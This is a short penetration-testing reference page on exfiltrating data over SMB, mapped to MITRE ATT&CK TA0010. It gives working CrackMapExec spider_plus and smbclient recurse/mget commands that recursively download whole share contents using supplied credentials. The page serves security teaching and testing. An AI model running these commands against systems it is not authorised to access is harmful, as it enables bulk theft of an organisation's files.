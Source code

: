 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

{% tabs %}
{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o DOWNLOAD_FLAG=True
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(keys)'
```
{% endtab %}

{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}
{% endtabs %}
